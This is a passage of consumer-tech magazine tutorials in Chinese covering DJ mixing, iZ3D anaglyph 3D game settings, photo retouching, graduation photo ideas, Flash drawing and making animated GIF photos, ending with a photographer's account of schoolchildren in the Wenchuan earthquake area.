    在播放曲子同时打开sample按钮，加入各种节拍素材，节拍素材类似片花，能自动循环播放，也可以自己录制一些特殊音效加入到素材库内。根据节奏可加入各种音响效果，素材是用来调整气氛和节奏快慢的，这里加入了1和9两种，用来体现高潮，每种下面都可用推子控制音量大小。

### DJ 制作技巧

1.  DJ操作可把音量推子随鼓点推拉，以增强力度，甚至只突出鼓点，其他时间拉掉，带有表演性质。
2.  DJ过程中把混音控制放到中间，每个鼓点来临前交替推出A、B两个播放器的曲子。
3.  当把鼠标停留在碟片上时，会自动变为小手，拖动产生加速或减缓转速的打碟效果。分别加入以上元素，最后等结束录制后保存就成了原创DJ歌曲，用普通播放器就能欣赏自己的DJ作品了。这里有一个调整节拍的快捷方式（同步按钮），可以设置A和B间的同步，这个功能对不太熟练把握节奏的初学者很有用，点击箭头就能把B同步到A。
(文/李传忠)

# 平面变立体 3D游戏大升级（上）

长久以来，我们都习惯了在平面的显示器上玩游戏。若有一款软件，可以把游戏变成3D游戏的话——试想一下，躲子弹时掩体近得几乎可以贴到脸，转弯漂移时你甚至能感受到车头离墙壁有多少距离——所有一切都变得一目了然，临场感和代入感前所未有地提高，尤其难得的是没有特殊硬件需求，普通家用配置就可以实现，你难道不想试试？

# 软件初设

我们所要用到的软件为“iZ3D”，下载地址见其官方网站http://www.iz3d.com.tw/support.php。

装好后请参照以下方法进行初次设置。

- 1. 打开主界面，进入“DirectX”项目，把“输出”设置为“彩色立体图” - “红色/青色”或者“优化（红色/青色）”，前者的色彩还原较好，后者立体效果更好，然后单击应用。
- 2. 进入“配置文件”项目，在下拉列表选择“默认配置文件”，打开“游戏”页，勾选“显示FPS”和“显示屏幕信息”，其余不选，单击应用。

# 眼镜选购

滤色能力是评价眼镜质量的重要指标之一，滤色不净就会有重影。初次购买不必太贵，最便宜的纸卡款即可。购入纸卡眼镜后，将纸卡略微弯折，透过红色镜片观看蓝色镜片，若蓝色镜片看起来黑且不透光，则此眼镜的质量已经合格。使用这种眼镜时如果画面重影依然比较严重，那么可以尝试调整显示器颜色来解决。

# 效果设置

iZ3D为每一个游戏建立单独的配置文件，因此每个游戏的立体效果都需分别设置。除了配置文件，游戏里的具体立体参数也是各自独立的。在此我们以《终极刺客：血钱》等游戏作为例，介绍一下设置立体效果的具体方法。

进入游戏之前，在iZ3D主界面把立体状态修改成“用热键启用立体”，单击应用，之后打开“配置文件”页，在下拉列表可以找到“Hitman Blood Money”，这里的设置目前应该和默认配置文件是一样的，暂且不去动它。《血钱》是iZ3D内置了配置文件的游戏之一，因此可以直接在下拉列表找到游戏名。对于下拉列表没有的游戏，只要在开启立体效果的情况下运行过，就会自动加入列表，显示为游戏主程序文件名（重启iZ3D后可以看见）。之后就进入游戏吧！

在游戏中按热键“小键盘星号键*”，可打开立体效果，此时屏幕左上角会显示当前的立体状态，默认为：

1/收 = -0.1000 / 分离 = 20 / 自聚焦

- ● “1”表示第1套预设，共可设置3套，切换热键“小键盘7，8，9”；
- ● “收”表示“焦点位置”坐标的量化数值，设置热键“Shift+小键盘加减号”；
- ● “分离”表示图像分离度，设置热键“小键盘加减号”；
- ● “自聚焦”是自动调焦开关，开关热键“小键盘斜杠/”。

在几项立体参数里焦点位置（即“收”值）最重要，焦点设置合适可以达到相当好的立体效果！本期将重点介绍焦点位置的设置。

何为“焦点位置”？打开立体效果后，大多数物体都能看到明显的红色、青色两种影子，越是远处的物体，影子间距就越大，往近看，影子间距逐渐缩小，直到某个位置，影子发生重合，物体没有明显重影，这个点就是“焦点”，而其在3D空间里的纵深轴坐标值就是“收”值，即焦点位置。

焦点位置对立体效果的影响特别大，这是因为在立体状态下，“游戏场景里，焦点与3D物体的距离”基本等于“玩家感官里，屏幕与3D物体的距离”。这就产生了两种立体效果：比焦点远的物体看起来在屏幕里面，比焦点近的物体则有跃出屏幕的感觉，前者叫“入屏”，后者叫“出屏”。“出屏”拥有相当强的立体感，不过较难把握——若出屏的物体没有完整地显示在屏幕中，则它在屏幕边缘处就会产生被截断的感觉，这叫“失真”。

> 注：“远”、“近”、“位置”皆取视角镜头为参照。

下面以不同的游戏举例，分别讲解不同视角下焦点位置的设置方法。注意有极少数游戏开启立体效果后，红蓝图像的左右方向错误，如《鬼武者3》，可应用热键“Ctrl+F8”将其对调过来。

# 1. 第一人称射击视角

有一种焦点设置方法基本适用于任何游戏视角，姑且称之为“泛用设置方法”：按“Shift+小键盘减号”把“收”值往-∞方向调整，目标数值因游戏而异。此时，不戴眼镜进行观察的话，应该能注意到标志焦点位置的“无重影点”在不断靠近我们：当焦点移动到离我们最近的游戏物体——“主角手部”时，“主角手部”的重影几乎消失，继续拉近焦点，则它的重影又重新出现。

这样设置还有一个好处，游戏物体看起来一般比现实尺寸小（鉴于我们屏幕没那么大），而让焦点远离游戏物体就意味着在感官上你与它们的距离变远，于是它们偏小的尺寸看起来就显得比较真实了。

此外，在第一人称射击视角里，主角手部是位置固定的极近距离参照物，因此“出屏”很好控制，于是还可以把焦点放在武器或者手部的远端，就像前面的图2一样，这种设置方法可以产生更强的临场感。虽然位于屏幕边缘的手臂部分必然失真，但是对于第一人称射击游戏来说，这并非不可接受——玩家的注意力多数时候集中在屏幕中央，边缘处发生的失真并不显得突兀。

# 2. 第三人称视角

第三人称视角被广泛应用于3D动作游戏，部分射击游戏也有使用，如《英雄萨姆》系列，赛车游戏的追尾视角也属这类。

在大部分使用这种视角的游戏里，镜头的远近调整往往是家常便饭，所以还是使用“泛用设置方法”比较简单，把焦点设置在极近距离，通吃镜头的远近调整。

在选择极近距离参照物的时候，如果是视角比较自由的游戏，如《古墓丽影：传奇》，只要让劳拉站在墙壁旁边，然后转转视角就可以了，图4中便是以劳拉自己作参照物。

也有的游戏对视角有严格的限制，几乎是不可能让主角跑到视角面前来的，比如《鬼武者3》，那么只好借助纹理（像简单主视角那样）或者借助场景道具了。

除了“泛用设置方法”，也可以考虑别去在意游戏视角的远近调整，直接取一个平时最常用的视角，将焦点丢在主角身上；虽然偶尔发生的失真有点影响效果，但是如图6以《波斯王子：时之砂》为例，拉近了你与主角的距离，这种立体效果也是不错的，而且这种情况下画面总体重影程度比较低，看起来也会比较舒服。

以上两种是最常用的焦点设置。此外，还有简单主视角/车灯视角、电影视角、上帝视角设置，详细内容请见Cfan图形图像论坛。

下期将介绍3D游戏中分离度、激光视域、自聚焦与电影视角、预设切换等立体参数的设置。敬请关注！

(文/庄哲耕)

# 平面变立体 3D游戏大升级（下）

在第13期我们为大家介绍了如何将平面游戏转为3D效果的游戏，以及其中焦点位置的设置，本期再介绍分离度、激光视域、自聚焦与电影视角等几个重要参数的设置。

# 分离度

分离度影响着距离感。若是没设置好，游戏物体就显得不真实。对于游戏里一个圆球体，如果分离度设置太小，则它看起来就像是扁球体，压扁了；设置太大，则它看起来就变成椭球体，拉长了。

设置分离度的时候，可以调整视角呈45度俯视，就像观看一个垂直立于水平地面上的物体；若分离度偏小，则该物体的站立角度看起来就有点向屏幕里面倾斜，应加大分离度；若分离度偏大则反之。设置热键“小键盘加减”。

不同游戏的分离度比例并不一样，有的游戏分离度比例偏大，动一下一大格，精确度不够，无法找到理想的设置，这时就得在iZ3D主界面里找到该游戏的配置文件，打开“游戏”页，把“分离比例”项调低。默认是1，若设置成0.5的话，表示把分离度比例降低为默认的一半，也就是把精度提高为2倍。

默认设置的时候有一个步骤是把名为“分离模式”的项目设置成“左移”，这是因为在开启立体效果后，某些游戏里的2D元素会发生不该有的位置偏移，失去其功能，但是使用单方向的分离模式的话，左右眼画面就会有一副是不发生位置偏移的。

第一人称射击游戏里的准星也会发生类似的麻烦，但对于准星来说开了单反向分离模式还不够，因为屏幕上会出现两个准星，此时可用热键“Ctrl+小键盘斜杠/”打开“激光视域”。它具有距离适应能力，可以自动聚焦在屏幕正中央的3D物体上，用来辅助辨认以正确射击准星挺不错的。

# 自聚焦与电影视角

焦点一般在设置好之后不轻易改变，不过电影视角是个例外，电影视角下的镜头变化幅度有时候会大到任何一个固定的焦点设置都跟不上；此时就可以请出自聚焦功能了，它和傻瓜相机的自动调焦是一样的。不难理解吧，不过正常情况下除了电影视角外，其他视角都用不着自聚焦功能。

> 注：中文版有个Bug，自聚焦的开启/关闭状态没有显示，在iZ3D主界面的“设置”页将语言换成英文就没这问题，但这里还是以中文版为例进行说明。

设置过程：先把“收”值调到0附近，“分离度”也降低到5以下，然后按“小键盘斜杠/”打开自聚焦功能，并开始播放以即时演算过场动画或比赛回放。在播放过程中，一点点增加分离度，直到自聚焦状态后面开始出现“分离太多”的警告或者发生自聚焦对焦失败的情况时，适当减小点分离度，直到整个播放过程中都不会再出现出错信息，自聚焦也都一直能正常对焦。

打开自聚焦功能时，焦点和分离度的设置都没办法像前面讲解的那样可以精益求精、吹毛求疵，这也有当前版本自聚焦功能尚不完善的原因，期待后续版本的改进吧！

# 预设切换

有的游戏会交替使用多种视角，比如平时以第三人称视角进行游戏，到了过场动画时则变成了电影视角，为此相应更换立体效果设置是免不了的。iZ3D可以保存3套预设，预设里的信息包括焦点、分离度、激光视域和自聚焦，用“小键盘7，8，9”切换。

# 副作用

开启iZ3D，佩戴红蓝眼镜后，除了带来立体感，也会带来一些副作用：

- 1. 因为镜片滤光，游戏亮度会有所降低，但在大多数游戏里影响不大；有些游戏本身就比较暗的话，游戏时可以在显卡设置里暂时提高屏幕亮度。
- 2. 同时要运算的画面变成两幅，提高了系统配置要求。

# 巧施魔法 扮美老照片

家中的老照片虽饱含记忆，但很多照片的构图极其不美观，不仅杂物颇多，而且凌乱。要想让它符合现代的审美要求，就必须把这些杂物或移走，或改变。也许不少朋友觉得这类操作很高深，其实只要使用Retouch Pilot这款软件，就算菜鸟，也能在瞬间扮美老照片。不信？跟我来。

# 变形

老照片中的杂物形态各异，处理方式也应区别对待。比如本例照片中的松柏，由于过于高大显眼，几乎成了照片中的主体。对于这类物体，只要给它变变形，适当降低高度，就不会产生喧宾夺主的感觉了，同时还能保持画面的完整。

打开程序界面，单击菜单栏中的View→Language→Chinese，将界面切换为简体中文。单击界面右侧工具箱中第二个“智能补片”按钮，切换到智能补片模式。拖动上方的滑块放大笔刷，然后在松柏的顶部单击鼠标，松柏顶部的图像即可被移除，只是松柏的顶部显得非常生硬（图1）。

接下来连续单击工具箱中绿色的“→”按钮（或连续按下键盘上的方向键），从画面中可以看到，随着滑块的移动，软件会自动从画面中选择形状相似的图像填充在松柏的顶部，待出现一个合适的顶部形状后，在画面的其它位置单击鼠标完成填充，此时的松柏已经完全改变了模样。操作完后，单击工具栏中的“另存为”按钮将照片保存即可。

# 移位

至于与画面不协调的物体，弃之会使画面过于空白，不如略动手脚，改变原有物体的方向，使画面整齐划一。本例照片右侧的路灯顶部原本向右弯曲，下面我们就把它的弯曲方向改过来。

打开照片，从右侧的工具箱中单击第一个“智能补片”按钮，工具箱下方出现的8个R字母，代表了选中物体的8种方向，不同的物体需要选择不同的方向。因为本例的目的是把右向的路灯改为向左弯曲，因此需要去掉“自动”选项，再单击第二个R字母，选择水平镜像。接着在路灯顶部单击鼠标，并对照界面右侧的放大窗口做水平移动，以确保接合处相吻合，最后单击鼠标完成移位操作（图2）。

# 隐身

至于照片中根本没有存在价值的物体，干脆直接去除，免得影响照片美观。该软件提供了两种替代背景的填充方法，一是自动计算，二是手工选择。大家可要按实际情况选择哟。

手工选择适用于远景比较简单的物体，比如图1中的松柏。打开照片，单击工具箱中的第一个“智能补片”按钮，在要去除的物体上单击鼠标，此时选中区域的物体虽被清除，但软件会自动进行颜色填充，显然效果很不理想。不过这没关系，在工具箱中去掉“颜色调整”选项，然后把鼠标移到画面的远景上单击取景，选区即可被画面中的远景取代，近景物体则不见踪迹（图3）。

自动计算则适用于背景较近且复杂的物体。比如图3中横在照片中的电线。这类物体由于在画面中构成一个封闭区域，其它操作往往无法找到合适的替代背景。对于这种情况，可以按下面的方法解决。打开照片后，单击工具箱中的第二个“智能补片”按钮，先勾选“关闭区域”选项，用鼠标选中画面中的电线，再取消对“关闭区域”选项的勾选，在电线上单击鼠标，那么该部分的图像便被清除，而背景几乎不受影响。随后在电线其它位置连续单击，去除即可。

(文/赵毅仙)

# 关于拍摄电视屏幕图像的基本技巧

电视屏幕上的图像是通过电子束的扫描来实现的，通常为每秒25帧，且为隔行扫描，电子束每扫描两遍便生成一幅完整的画面。也就是说电视屏幕上实际生成的画面是由全黑色画面（无图像）和有色画面（有图像）交替进行的。由于人眼的视觉暂留功能，您才会觉得电视上的画面是连续的。这一特性决定了在拍摄电视画面时的照相机快门速度不能太快，所以在拍摄时的快门速度应低于电子束的扫描速度。

针对这一特点，我们在拍摄电视屏幕图像时要注意掌握以下基本技巧：

- 1. 拍摄电视屏幕图像通常应使用具有快门优先或具有全手动功能的照相机来进行拍摄，拍摄时的快门速度应控制在1/60s至1/30s之间。通常具有拍照功能的手机并不具备上述功能，因此它所拍摄的质量一般都是不能令人满意的。
- 2. 拍摄电视屏幕图像不能使用照相机的全自动模式、程序模式和光圈优先模式，因为使用上述三种模式拍摄电视屏幕图像，都会因屏幕亮度的强弱而自动改变照相机的快门速度（曝光时间），而导致拍摄工作的无法完成。
- 3. 使用数码照相机拍摄电视屏幕图像时对白平衡的设置没有任何刻意的强求，利用数码照相机的自动白平衡功能完全可以胜任所有电视屏幕图像的拍摄工作。
- 4. 拍摄电视屏幕图像时严禁开启照相机的闪光灯，否则拍摄后的画面会产生严重的大面积白色光斑，从而造成拍摄工作的失败。
- 5. 在室内拍摄电视屏幕图像时，由于电视屏幕（尤其是玻璃荧光屏）非常容易产生反光，常常使所拍摄的画面上留下悬光斑。因此应尽量关闭室内各种灯光，此时所拍摄出来的画面将会更清晰。
- 6. 由于拍摄电视屏幕图像受拍摄慢速快门的制约，为了克服机震，在有条件的情况下应尽量使用三脚架和快门线，那时您所拍摄出来的电视画面的照片一定会更加地清晰和锐利。

(文/吴晓华)

关于立体游戏的玩法咱们就说到这吧，各位看了我的介绍有没有收获呢？赶紧弄一副红蓝眼镜来试试吧！每次游戏过后要记得把立体状态重新修改为“禁用立体”，否则某些不是3D游戏的程序也可能出现让人哭笑不得的3D状态提示哦。

# 总结

(文/庄哲耕)

# 告别呆板的毕业合影

又到一年毕业季，校园里又现三五成群拍毕业照的身影。还像过去那样穿着学士服“正襟危坐”一起说茄子吗？这样中规中矩的毕业照固然必不可少，但除此之外，富有创意的个性毕业照也是必须滴！

个性合影强调的是一种创意的表达。说到创意，是最难以琢磨的，有例可循就谈不上创意了。不过这里可以给大家一些范例，不妨借鉴一下他们的思路。

# 正装 + 创意型

突出个性，但展示精神风貌，如穿着学士服或统一制服，摆出一些富有创意的造型。此类型的个性合影有些还会突出主题性，如表达对母校的不舍，对某位老师的敬意等。

# 婉约型

即打破传统拍摄毕业照的形式，走某种造型风格，如统一穿着民国时期标志性服装，男生穿中山装，女士穿五四时期学生服，以及男生女生穿职业装等。

# 雷人恶搞型

主打搞笑，赚足关注度，如全班男生赤裸上半身拍摄，女士统一露腿、黑丝袜等。当然，雷人恶搞也是需要创意的，可模仿电影的某段经典场景拍摄。最近出现在各大论坛上的一位男生身穿学士服横躺在学校标志性的大石头上，而全班同学统一着学士服围绕着他躺卧的大石头“致哀”，是另类恶搞的典型表现。

# 在哪拍

- 拍摄教学楼，它记录了4年的学习生活。
- 拍摄操场，操场上有着4年挥洒的汗水，而且操场视野广阔更利于取景。
- 拍摄图书馆、食堂、宿舍、实验室等能够记录生活点点滴滴的地方。

# 场景摆拍

根据我在北京凯兴影像的拍摄经验，一般毕业生拍摄时多数已有自己的成熟创意，因此拍摄时需要根据创意的主题，把握拍摄画面的整体效果。排列队伍时切忌按照高矮顺序等过于程式化的方式，否则又会拍成传统的正式毕业照。强调画面的层次感、质感及充实感非常重要。错落有致的队形、人物个性的彰显等因素都需要在构图中把握和充分体现。

# 1. 抛帽

一、二、三，噢！在毕业典礼上把帽子抛向空中，似乎是已经很老套。不过，同样是抛帽，可以抛出不一样的精彩，不一样的激情！

# 2. 集体悬浮

在悬浮大行其道的今天，和同学们来一次集体跳跃吧！

# 3. 模仿经典Pose

可模仿日前上映的大片、电视剧、名画里的造型摆Pose，也可模仿一些经典动作，比如，在蓝天白云下，身穿海魂衫，胸前飘荡着鲜艳的红领巾，面对太阳，行个少年先锋队队礼，绝对醒目！

# 4. 自创造型

向天空伸出手臂的动作，代表了同学们对未来美好的憧憬。

# 特殊场景

选择一个特殊的场景，将自己融入进去，例如在操场的跑道上作起跑状，在教室的课桌上集体摆出埋头读书的造型。这些照片看似随意其实寓意深刻，还能将学校的点点滴滴一起记录。

如果你珍藏着特别的毕业照，赶快发给CFan晒一晒。发至邮箱sx@cfan.com.cn，邮件标题标明“个性毕业照”，并将图片以附件形式发送，邮件中请注明作者的真实姓名和联系方式。

(文/张国栋(北京凯兴影像一级摄影师))

# 盛夏出游季 随手美化iPhone照

盛夏激情如火，宅在空调房里虽然解暑，却往往让人食欲不振，疲乏头痛。禅学道：远离酷热严寒的方法，就是让自己也融入到天气中去。背上iPhone背起行囊吧，一路观赏夏日的大海、繁花、夜空和美女，边走边拍，把每时每刻的精彩通过“美图秀秀iPhone版”拼接起来分享给好友，会发现那些生活中你意想不到的美。

## 1. 夏日海滩的浮光掠影

透明的海水和无边无垠的宽阔海面，从来都让人心情愉悦。在夏日的夕阳下，同喜欢的人在海边发发呆、吹吹风，绝对是莫大的享受。但是，由于手机拍照局限性比较大，往往会降低天空的通透感和色彩的感染力。使用“美图秀秀iPhone版”来处理，就可以解决上述问题了。通过适当的图片裁剪、添加特效后，再加上一个有feel的边框，完美的海边日落的效果就营造出来了。

## 2. 夏日繁花的妖冶多姿

夏日的高温和雨水让鲜花绽放，无论是用手机拍摄路边的小花，还是将成片的花海全部揽入镜头，都同样让人心醉神迷。拍摄出鲜花照片后，在“美图秀秀iPhone版”上适当增加对比度和饱和度，可以让色彩看起来更加耀眼，充满夏日的激情。如果想让图片的重点更突出，可以使用“背景虚化”功能，凸显那最美的一两朵花。

## 3. DIY拼图串起旅行的点滴

旅行漫长而美好，仅凭单张图片又怎能诉说完整的故事？使用拼图功能，只需手指轻轻几下，便能将你的创意才智糅合在拼图里，瞬间还原整个夏天最绚烂的旅行心情。“美图秀秀iPhone版”中共有三种拼图类型和数十种缤纷边框、背景素材，可随意组合。

## 4. 直接分享到微博

处理完成的照片，只需一键点击保存和分享，即可在保存到本地相册的同时，直接上传到新浪微博和人人网，将你的旅行经历和好友共享。

总结：盛夏的长假马上就要开始了，你是去沙滩尽享海风和阳光，还是投身大海的通透碧波舒展筋骨，亦或前往雪域高原仰望星空？不管走到哪里，“美图秀秀iPhone版”都会让你的随走随拍随分享之旅，更加精彩个性哦！

(文/美图秀秀)

# 简单几步 画出动态的马儿

马，作为一种腾跃的精神象征物，早已深入人心并成为绘画中的一个重要题材。马的形态是很奇妙的，因为画上的马要画出“动态”，所以一定要捕捉到马的形态。今天就教大家如何画出动态的马儿，相信大家只要认真看完本文，就一定会完成您的大作！

首先我们要有一张原画，就是手绘画的马(图2) (可访问Cfan图形图像区下载)

我们用到的软件是FLASH，如图3运行软件，新建一个FLA文件。 新建场景从此开始

接下来开始制作，首先，点击文件—导入—导入到库（或者导入到舞台）(图4)。再将库中的马图片拖入到图层1中。

然后选择时间轴（图5），点击新建图层，新建一个全新的图层，默认的图层名为图层2。接下来锁定图层1（图5），选择图层2的第一帧，鼠标松开移动到舞台的任意一个位置。这样做是为了保证正常绘画。

选择工具栏（图6）鼠标移至每个工具不动可以看到工具的说明（图7），这一点需要说明一下，它们单独无太大用处，但与Photoshop联合使用可发挥巨大的作用。 我们制作的马使用的工具频率最高的就是选择工具（V）和线条工具（N），其次是部分选取工具（A）。 大家继续观察我画的马，聪明的你会发现马的一些部位是要单独画的。

- 1. 如果不想让这个矢量图继续使用，那么在绘画过程中就可以只用一个图层，即图层2就行了，反之想做动画的朋友，可以先把马的部位各放在一个图层，注意是“各”，或者把它们一个一个组合。
- 2. 画马的时候一定要把图层1放在图层2下面并且锁定它，否则你辛辛苦苦画的画就被分离在两个图层之中，很容易误选，注意这一点，弄错了很麻烦！
- 3. 绘画过程中多用线条勾画，然后用选择工具调整线条（图8）。

需要注意的是线条工具与选择工具的运用。如图8，先用线条勾一条直线，然后再使用选择工具调整线条，在一般情况下调整后的线条要与原画线条位置重合，但有时它会成为一个人的作图风格，可以例外。 注意，每画好一个部位时请保存，最后效果图详见图1。

(文/李权衡)

## 相机也能这么玩 让照片动起来（上）

《黑客帝国》中著名的“子弹时间”镜头让人记忆犹新——子弹正面射来，基努·里维斯后仰，镜头瞬间围绕他旋转了360度。现在，通过一种会动的照片就可以实现这样逼真的3D效果。这种会动的照片主体是静止的，但局部却在左右晃动，甚至旋转。看着这种照片，好像走进照片拍摄现场，有身临其境之感。口说无凭，实战为证！今天就教大家怎样拍摄并制作。

我们知道，动画效果是由一系列的帧组成的，两个帧就可以组成最简单的动画效果，比如我们拍一张睁眼和一张闭眼就可以组成睁、闭眼的动画效果，但要制作出理想的照片动画效果还得讲究些拍摄技巧和方法，当然啦，后期制作技巧也是必须的。开始动手吧！

## 连拍法

这种拍摄的方法必须要连拍功能的数码相机，拍摄过程镜头是静止的，所以最好还要有三脚架，因为这样才能保证画面的稳定，后期制作中也省去了很多的麻烦，也提高了动画的质量。那制作什么样的动画效果适合连续拍摄的呢？下面分别用两个实例来加以说明。

## 1. 彩旗飘动的照片动画效果

大家可以看到，无论是从构图、主题、色调来看，都是一张比较完整的摄影作品，更让人惊奇的是照片中的彩旗竟然还在飘动。拍动画照片时首先要有个整体的构思，选择好要拍摄的对象，找好拍摄的角度进行构图，因为最终的效果是要让彩旗飘起来，所以要聚焦在彩旗上。

选择相机中的连拍功能。所谓的连拍功能就是在按下快门后不放，会自动以每秒钟几张的速度连续不断地拍摄，至于一秒钟能连拍几张因相机的不同而异。如果以最简单的动画原理，我们拍两张就可以，不过为了让彩旗飘动得更自然些，可以多拍几张，我这里选用了7张。

素材已经拍摄完毕，接下来就着手动画制作了。打开PS，把连拍获得的7张照片按顺序分别置于各个图层。由于要保留更多的照片特色，所以以背景层为标准，点击图层面板下面的“f”图标给以上各层都加上蒙版，用黑色画笔把彩旗以外的都涂抹掉，这样做的目的就是整个画面中只有彩旗在动了，也有别于一般录像的效果。如果要改变画面的色调，可以点击图层面板下面的黑白图标，选择曲线或其它的调色工具，在图层最上层加个调整层，这样就不用一层一层地去调色了。

然后打开“菜单→窗口→动画”，在动画面板中复制七个帧，每个帧各显示一个图层，这样点击播放按钮就可以看到动画的效果。最后点击“菜单→文件→存储为web所用的格式”，设置后存储为gif格式，这样一张完整的会动的照片效果就完成了。

## 2. 情侣漫步的动画效果

在一张完整的风景照上，会动的部分是一对情侣从林荫道上亲热走过……拍摄这张素材采用的是守候法，用三脚架放好相机，做好构图、对焦，以及速度、光圈的曝光组合。

需要注意的是，在允许的条件下，尽量用高速拍摄，以防止运动人物的模糊。然后选择连拍的设置，静待着合适的人物路过，然后按住快门钮不放，从人物进入画面开始到人物走出画面结束，如果有快门线的话就方便多了。拍摄这类素材要有耐心，有时等了几个小时都没有个合适的人选，我这张还是算是有幸了！

至于动画的制作请参考上文。这张素材笔者拍了30张，也就是30个帧，每个帧的时间设置为0.1秒。同样也要给每个图层加上蒙版，用黑色画笔把人物以外的景物全部涂掉，否则树叶和江水都会动的。

## 3. 主体静止，转动镜头拍摄法

这个比较适用于主体不动的拍摄方法，比如一张照片的主体是棵大树，怎样才能让大树转起来呢？让大树真实地转起来那简直就是痴心妄想了！但是我们可以让拍摄的镜头转起来，这样大树就相对地转起来了。为了拍摄点相对稳定，相机最好安放在三脚架上，同样也得做好构图、对焦、曝光组合等准备工作，然后就可以开拍了，每拍完一张后相机的镜头就转动一个角度，再继续拍，直达到要求。这张素材我一共拍了17张，也就是17个帧，这样就实现了树冠旋转的动态效果了。动画制作方法同上，这张就不用加蒙版了。

## 4. 镜头静止，人为转动主体拍摄法

一张茶壶360度转动的动画效果，要达到这种效果可以有两种拍摄方法。第一种方法就是相机镜头绕着茶壶绕一圈进行拍摄。这种方法看起来比较容易，但实际操作起来并不好掌握，效果也不理想。

第二种方法就是相机镜头固定，最好用三脚架，然后人为地转动茶壶，一个角度一个角度地进行拍摄，直到转完一周为止。这个素材总共拍了27张，即27个帧。理论上是转动的角度越小，拍得越多张，帧数越多，那制作的动画效果的过渡也就越自然，不过帧数越多输出的容量也就越大，因此二者的利弊关系需要权衡了。

以上介绍了平面的拍摄，下一期我们要为大家介绍多角度空间拍摄法及后期编辑。

## 相机也能这么玩 让照片动起来（下）

《黑客帝国》中著名“子弹时间”镜头让人记忆犹新——子弹正面射来，基努·里维斯后仰，镜头瞬间围绕他旋转了360度。现在，通过一种会动的照片就可以实现这样逼真的3D效果。这种会动的照片主体是静止的，但局部却在左右晃动，甚至旋转。看着这种照片，好像走进照片拍摄现场，有身临其境之感。第14期教大家制作了平面效果的动画照片，本期再教大家多角度空间拍摄法及后期编辑。

如果说之前我们介绍的几种动画照片还局限于平面的话，那这张就具有多角度空间变换的动画效果了。这张以静止的维纳斯仿牙雕像为主体，分别从正面、两侧拍摄以及俯拍。在后期的动画制作上借鉴了电影的编辑技巧，下面将详细地说明一下整体的思路以及操作的过程，希望对大家有所帮助。

根据拍摄到的12张不同角度的照片素材（素材1-11请访问CFan图形图像论坛下载），制作一段展示维纳斯雕像多角度的空间动画效果。展示的顺序是这样的：头部特写→正面全身→左侧→背后→右侧→上半身特写。

## 1. 头部的特写

要求头像要缓慢上行后再缩小，为下一个镜头的衔接做好准备。

打开PS，新建文件500×360像素，用黑色填充背景，命名为“图层1”。拖入素材1，命名为“图层2”，进行适当地缩放，让头部充满画面（如图1所示）。然后复制一图层，命名为“图层3”，选中工具栏中的移动工具，按动键盘中的向上方向键，向上移动15像素左右（这个因图而异），如图2所示。按照上述的做法复制、移动，直到维纳斯整个脸部都露出来为止，这里总共复制到了图层21，如图3所示。复制图层21为图层22，进一步缩小，然后依次复制、缩小，直到到图层25。

## 2. 正面到左侧再到背部的展示

这个由素材2-6组成，分别置于图层26-30。因为前面的是慢动作，这一步就可快速翻转了，掌握快慢相结合的节奏。

复制图层30，这里总共复制了7次，到了图层37。然后依次各层逆时针旋转一个角度，这个旋转效果起了缓冲的作用，同时也起到衔接下一个镜头的作用。

复制图层37总共9次，直到图层46，各层依次缩小，目的是为了跟下一个镜头更好地衔接，同时也增加大小空间的变化。

## 3. 背后到右侧再回到正面

分别把素材7、8、9置于图层47、48、49，这个要实现快速转换空间位置的效果。

复制图层49三次，分别命名为图层50、51、52。用变形工具依次放大，在上一个快速转换的镜头下进行从小到大的变化。

把素材10拖入置于图层53，这跟前面图层52有个位置的转换。然后复制图层53共14次，依次命名为“图层54~67”，把图层54到图层67依次放大，这样就实现了慢动作的放大效果。

把素材11拖入置于图层68，然后复制15次，依次命名为“图层69~83”。把图层69到图层83依次放大，这样也是实现慢动作放大，最后跟图层1的特写镜头相衔接。

## 4. 动画编辑

打开PS菜单→窗口→动画，现在可以看到动画编辑的界面了，并看到有一个帧了。第一个帧用背景黑色的，把上面图层前面的小眼睛都关掉，也就是隐藏上面所有的图层，只留下图层1，上面我们已经把图层1填充成黑色的了。

一般视频动画都是从黑色或白色开始的，点击复制选中帧的图标就会出来一个帧2，打开图层2前面的小眼睛，这样图层2就在帧2中显示出来了。如果从帧1的黑色一下子转到帧2的画面，会感到很突兀，所以我们要做一个渐变显示的过渡效果。这也是在视频镜头之间转换常用到的。可以点击下面的动画帧过渡，然后再选择要几个帧，这样过渡起来就较正常。

接下去就按照前面所讲的思路依次进行编辑，我们前面的工作都已经做好了，这个大家应该会做了哈。最后一个画面镜头跟开头黑色的帧1也同样要有个过渡效果，因为我们做的动画效果播放起来是首尾衔接循环的。

## 小结

以上介绍了各种照片动画的拍摄以及制作的方法，大家可以举一反三，玩出更多的花样、更出彩的照片动画。还可以把GIF动画格式直接改成JPG的，这样让人家看了更惊奇啦，嘿嘿\~\~\~由于杂志无法演绎动画的效果，所有的素材、效果图大家都可以到论坛图区查阅哈。

## 网络大补贴:

来自纽约的女摄影师Jamie Beck近日的GIF动态画面创作，引起了摄影界广泛的讨论，GIF动画并不难，但Jamie Beck的GIF动态画面创作却显得如此特别，她是在画面中的细微处制作出动态感，别具巧思。Jamie Beck说，她在拍照前会在脑中先创造一个画面，而这个画面就是她最后所呈现的，无论是一个场景、一个氛围、一个事物，都是她得到灵感的泉源。

> 请欣赏：http://3000.m.oeeee.com/blog/archive/2011/6/29/2496046.html。

## 拍摄实录：记录灾后孩子们的欢声与笑语

汶川大地震三周年来临之际，随国务院新闻办前往四川灾区参加“记录重建奇迹，见证中国力量”专家博客笔会。我随身携带两部数码单反相机，亲手拍下了灾区孩子们的欢声笑语。

在青川县马鹿乡小学参观采访时，我利用高速连拍功能，拍下了灾后的小学生在学校操场上体育课间运动的一组照片。回来以后，每次检索、浏览时，都觉得是一种享受。

“5.12”大地震中，青川县马鹿乡小学全部损毁。我们参观的新校区是浙江省湖州市全额援建的。学校地处青川县的大山深处，由于地震之后“举牌娃”的感恩行动，这里成为“马鹿中心小学未成年感恩奋进教育基地”，是灾后青川精神重建的宣传窗口。

我们参观团走进的这所小学，按照当地各级组织的安排，依次参观、采访、拍摄。随大部队行动，这样是拍不到什么感人的图片的。我们的车队，临近这个小学时，我就发现路边马鹿乡小学新建的操场上，有很多做体育运动的小学生们。那里一定能拍摄到灾后学生们的新面貌，于是，我溜出刻意安排参观的队伍，快步赶到一个高岗上的体育场里。由于是课间时间，操场上有两三百名小学生在做着体育运动，有打羽毛球的、玩乒乓球的、打篮球的、集体跳绳的，还有自娱自乐的。

